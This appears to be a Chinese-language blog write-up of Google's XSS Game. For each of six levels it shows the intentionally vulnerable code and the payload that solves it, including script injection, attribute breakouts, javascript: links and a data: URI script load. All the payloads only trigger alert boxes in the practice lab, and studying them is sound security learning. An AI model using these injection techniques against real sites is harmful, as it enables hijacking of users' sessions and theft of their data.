

谷歌的小游戏，复习一下xss

<!-- more -->

项目地址：https://xss-game.appspot.com/

## level1

https://xss-game.appspot.com/level1/frame

```python
page_header = """
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level1">
    
      <div>
"""
 
page_footer = """
    </div>
  </body>
</html>
"""
 
main_page_markup = """
<form action="" method="GET">
  <input id="query" name="query" value="Enter query here..."
    onfocus="this.value=''">
  <input id="button" type="submit" value="Search">
</form>
"""
 
class MainPage(webapp.RequestHandler):
 
  def render_string(self, s):
    self.response.out.write(s)
 
  def get(self):
    # Disable the reflected XSS filter for demonstration purposes
    self.response.headers.add_header("X-XSS-Protection", "0")
 
    if not self.request.get('query'):
      # Show main search page
      self.render_string(page_header + main_page_markup + page_footer)
    else:
      query = self.request.get('query', '[empty]')
       
      # Our search engine broke, we found no results :-(
      message = "Sorry, no results were found for <b>" + query + "</b>."
      message += " <a href='?'>Try again</a>."
 
      # Display the results page
      self.render_string(page_header + message + page_footer)
     
    return
 
application = webapp.WSGIApplication([ ('.*', MainPage), ], debug=False)
```

关键部分

```python
query = self.request.get('query', '[empty]')
       
      # Our search engine broke, we found no results :-(
      message = "Sorry, no results were found for <b>" + query + "</b>."
      message += " <a href='?'>Try again</a>."
```

`Sorry, no results were found for <b> + query + </b>.`

GET请求query会直接填入网页html


直接打即可，payload:

```html
<script>alert(1);</script>
```


---

## level2

https://xss-game.appspot.com/level2/frame

源码·index.html

```html
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <!-- This is our database of messages -->
    <script src="/static/post-store.js"></script>
   
    <script>
      var defaultMessage = "Welcome!<br><br>This is your <i>personal</i>"
        + " stream. You can post anything you want here, especially "
        + "<span style='color: #f00ba7'>madness</span>.";
 
      var DB = new PostDB(defaultMessage);
 
      function displayPosts() {
        var containerEl = document.getElementById("post-container");
        containerEl.innerHTML = "";
 
        var posts = DB.getPosts();
        for (var i=0; i<posts.length; i++) {
          var html = '<table class="message"> <tr> <td valign=top> '
            + ' </td> <td valign=top '
            + ' class="message-container"> <div class="shim"></div>';
 
          html += '<b>You</b>';
          html += '<span class="date">' + new Date(posts[i].date) + '</span>';
          html += "<blockquote>" + posts[i].message + "</blockquote";
          html += "</td></tr></table>"
          containerEl.innerHTML += html; 
        }
      }
 
      window.onload = function() { 
        document.getElementById('clear-form').onsubmit = function() {
          DB.clear(function() { displayPosts() });
          return false;
        }
 
        document.getElementById('post-form').onsubmit = function() {
          var message = document.getElementById('post-content').value;
          DB.save(message, function() { displayPosts() } );
          document.getElementById('post-content').value = "";
          return false;
        }
 
        displayPosts();
      }
 
    </script>
 
  </head>
 
  <body id="level2">
    <div id="header">
       
      <div>Chatter from across the Web.</div>
      <form action="?" id="clear-form">
        <input class="clear" type="submit" value="Clear all posts">
      </form>
    </div>
 
    <div id="post-container"></div>
 
    <table class="message">
      <tr>
        <td valign="top">
          
        </td>
        <td class="message-container">
          <div class="shim"></div>
          <form action="?" id="post-form">
            <textarea id="post-content" name="content" rows="2"
              cols="50"></textarea>
            <input class="share" type="submit" value="Share status!">
            <input type="hidden" name="action" value="sign">
          </form>
        </td>
      </tr>
    </table>
 
  </body>
</html>
```

Level.py

```python
class MainPage(webapp.RequestHandler):
 
  def render_template(self, filename, context={}):
    path = os.path.join(os.path.dirname(__file__), filename)
    self.response.out.write(template.render(path, context))
 
  def get(self):
    self.render_template('index.html')
 
application = webapp.WSGIApplication([ ('.*', MainPage) ], debug=False)
```

Post-store.js

```js
/*
 * Objects to implement a client-side post database.
 */
 
function Post(message) { 
  this.message = message;
  this.date = (new Date()).getTime();
}
 
function PostDB(defaultMessage) {
  // Initial message to display to users
  this._defaultMessage = defaultMessage || "";
 
  this.setup = function() {
    var defaultPost = new Post(defaultMessage);
    window.localStorage["postDB"] = JSON.stringify({
      "posts" : [defaultPost]
    });
  }
 
  this.save = function(message, callback) {
    var newPost = new Post(message);
    var allPosts = this.getPosts();
    allPosts.push(newPost);
    window.localStorage["postDB"] = JSON.stringify({
      "posts" : allPosts
    });
 
    callback();
    return false;
  }
 
  this.clear = function(callback) {
    this.setup();
 
    callback();
    return false;
  }
 
  this.getPosts = function() {
    return JSON.parse(window.localStorage["postDB"]).posts;
  }
 
  if(!window.localStorage["postDB"]) { 
    this.setup();
  }
}
```

关键代码

```js
for (var i=0; i<posts.length; i++) {
          var html = '<table class="message"> <tr> <td valign=top> '
            + ' </td> <td valign=top '
            + ' class="message-container"> <div class="shim"></div>';

          html += '<b>You</b>';
          html += '<span class="date">' + new Date(posts[i].date) + '</span>';
          html += "<blockquote>" + posts[i].message + "</blockquote"; //这还少个 '>' 23333
          html += "</td></tr></table>"
          containerEl.innerHTML += html; 
        }
```

可以发现我们提交的内容输出字段会被`<blockquote>`包裹，考虑到数据是存储的服务器上的可以利用存储型xss，利用`onerror`事件来进行xss

> onerror 事件在视频/音频（audio/video）数据加载期间发生错误时触发。

利用img标签加载一个不存在的对象，会触发onerror事件

payload：

```js

```

代码存进了服务器里，只要刷新都会触发


---

## level3

https://xss-game.appspot.com/level3/frame#1

源码·index.html

```html
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <!-- Load jQuery -->
    <script
      src="//ajax.googleapis.com/ajax/libs/jquery/2.1.1/jquery.min.js">
    </script>
 
    <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(unescape(self.location.hash.substr(1)) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(unescape(self.location.hash.substr(1)));
        }
      }, false);
    </script>
 
  </head>
  <body id="level3">
    <div id="header">
      
      <span>Take a tour of our cloud data center.</a>
    </div>
 
    <div class="tab" id="tab1" onclick="chooseTab('1')">Image 1</div>
    <div class="tab" id="tab2" onclick="chooseTab('2')">Image 2</div>
    <div class="tab" id="tab3" onclick="chooseTab('3')">Image 3</div>
 
    <div id="tabContent"> </div>
  </body>
</html>
```

Level.py

```python
class MainPage(webapp.RequestHandler):
 
 
  def render_template(self, filename, context={}):
    path = os.path.join(os.path.dirname(__file__), filename)
    self.response.out.write(template.render(path, context))
 
  def get(self):
    self.render_template('index.html')
 
application = webapp.WSGIApplication([ ('.*', MainPage), ], debug=False)
```

关键代码

```js
html += "";
        $('#tabContent').html(html);
 
        window.location.hash = num;
```

`num`是#后面的输入，没有经过任何过滤，所以让它的img标签闭合，再加上我们的代码即可

``

即变为`<script>alert(1);</script><.jpg' />`

Payload：

```js
'><script>alert(1);</script><
```


---

## level4

https://xss-game.appspot.com/level4/frame#

源码·index.html

```html
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level4">
    
    <br>
    <form action="" method="GET">
      <input id="timer" name="timer" value="3">
      <input id="button" type="submit" value="Create timer"> </form>
    </form>
  </body>
</html>
```

Level.py

```python
class MainPage(webapp.RequestHandler):
 
  def render_template(self, filename, context={}):
    path = os.path.join(os.path.dirname(__file__), filename)
    self.response.out.write(template.render(path, context))
 
  def get(self):
    # Disable the reflected XSS filter for demonstration purposes
    self.response.headers.add_header("X-XSS-Protection", "0")
 
    if not self.request.get('timer'):
      # Show main timer page
      self.render_template('index.html')
    else:
      # Show the results page
      timer= self.request.get('timer', 0)
      self.render_template('timer.html', { 'timer' : timer })
     
    return
 
application = webapp.WSGIApplication([ ('.*', MainPage), ], debug=False)
```

Timer.html

```html
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() { 
          window.confirm("Time is up!");
          window.history.back();
        }, seconds * 1000);
      }
    </script>
  </head>
  <body id="level4">
    
    <br>
    
    <br>
    <div id="message">Your timer will execute in {{ timer }} seconds.</div>
  </body>
</html>
```

关键代码

```html

```

默认3秒`seconds = parseInt(seconds) || 3;`

输入100，看到加载如下

``

于是想办法闭合，用单引号闭合`startTimer`，然后写弹窗再和后面的`')`闭合

> onload 事件会在页面或图像加载完成后立即发生

Payload:

```
');alert('1
```

即变为``


---

## level5

https://xss-game.appspot.com/level5/frame#

源码·confirm.html

```html
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level5">
    <br><br>
    Thanks for signing up, you will be redirected soon...
    <script>
      setTimeout(function() { window.location = '{{ next }}'; }, 5000);
    </script>
  </body>
</html>
```

Level.py

```python
class MainPage(webapp.RequestHandler):
  def render_template(self, filename, context={}):
    path = os.path.join(os.path.dirname(__file__), filename)
    self.response.out.write(template.render(path, context))
 
  def get(self):
    # Disable the reflected XSS filter for demonstration purposes
    self.response.headers.add_header("X-XSS-Protection", "0")
 
    # Route the request to the appropriate template
    if "signup" in self.request.path:
      self.render_template('signup.html', 
        {'next': self.request.get('next')})
    elif "confirm" in self.request.path:
      self.render_template('confirm.html', 
        {'next': self.request.get('next', 'welcome')})
    else:
      self.render_template('welcome.html', {})
     
    return
 
application = webapp.WSGIApplication([ ('.*', MainPage), ], debug=False)
```

Signup.html

```html
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level5">
    <br><br>
    <!-- We're ignoring the email, but the poor user will never know! -->
    Enter email: <input id="reader-email" name="email" value="">
 
    <br><br>
    <a href="{{ next }}">Next >></a>
  </body>
</html>
```

Welcome.html

```html
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level5">
    Welcome! Today we are announcing the much anticipated<br><br>
    <br><br>
 
    <a href="/level5/frame/signup?next=confirm">Sign up</a> 
    for an exclusive Beta.
  </body>
</html>
```

关键代码

```html
<a href="{{ next }}">Next >></a>
```

直接讲next参数填入html，href也是可以执行JavaScript代码的

payload：

```
next=javascript:alert(1);
```

然后点`Next>>`就行




> 超链接标签`<a>`,用户点击相应按钮时可以跳转到新的页面（执行某个JavaScript），用到了这样的代码结构：
>
> `<a href='javascript:doSomething()'>...</a>`
>
> 执行权首先落在doSomething()函数，若存在返回值则将返回值返给超链接进行合成


---

## level6

https://xss-game.appspot.com/level6/frame#/static/gadget.js

源码·index.html

```html
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <script>
    function setInnerText(element, value) {
      if (element.innerText) {
        element.innerText = value;
      } else {
        element.textContent = value;
      }
    }
 
    function includeGadget(url) {
      var scriptEl = document.createElement('script');
 
      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
 
      // Load this awesome gadget
      scriptEl.src = url;
 
      // Show log messages
      scriptEl.onload = function() { 
        setInnerText(document.getElementById("log"),  
          "Loaded gadget from " + url);
      }
      scriptEl.onerror = function() { 
        setInnerText(document.getElementById("log"),  
          "Couldn't load gadget from " + url);
      }
 
      document.head.appendChild(scriptEl);
    }
 
    // Take the value after # and use it as the gadget filename.
    function getGadgetName() { 
      return window.location.hash.substr(1) || "/static/gadget.js";
    }
 
    includeGadget(getGadgetName());
 
    // Extra code so that we can communicate with the parent page
    window.addEventListener("message", function(event){
      if (event.source == parent) {
        includeGadget(getGadgetName());
      }
    }, false);
 
    </script>
  </head>
 
  <body id="level6">
    
    
    <div id="log">Loading gadget...</div>
  </body>
</html>
```

level.py

```python
class MainPage(webapp.RequestHandler):
  def render_template(self, filename, context={}):
    path = os.path.join(os.path.dirname(__file__), filename)
    self.response.out.write(template.render(path, context))
 
  def get(self):
    self.render_template('index.html')
 
application = webapp.WSGIApplication([ ('.*', MainPage), ], debug=False)
```

gadget.js

```js
/* This is a completely awesome invisible gadget */
```

关键代码

```javascript
var scriptEl = document.createElement('script');
 
// This will totally prevent us from loading evil URLs!
if (url.match(/^https?:\/\//)) {
  setInnerText(document.getElementById("log"),
               "Sorry, cannot load a URL containing \"http\".");
  return;
}

// Load this awesome gadget
scriptEl.src = url;
```

直接加载外部脚本，如图所示


既然没有任何过滤，那就直接用data数据流加载即可

RFC2397对data数据流有过定义 https://tools.ietf.org/html/rfc2397

`data:[<mediatype>][;base64],<data>`

payload:

```
data:text/plain,alert(1);
```


---

学习了基本的Cross-site scripting (XSS)

跨站点脚本（XSS）是一个安全漏洞，可能会影响网站。 这个漏洞可能使攻击者可以将自己的恶意JavaScript代码添加到显示给用户的HTML页面上。 一旦被害者的浏览器访问，此代码便可以执行，改变网站的行为或外观，窃取私人数据或代表用户执行操作等等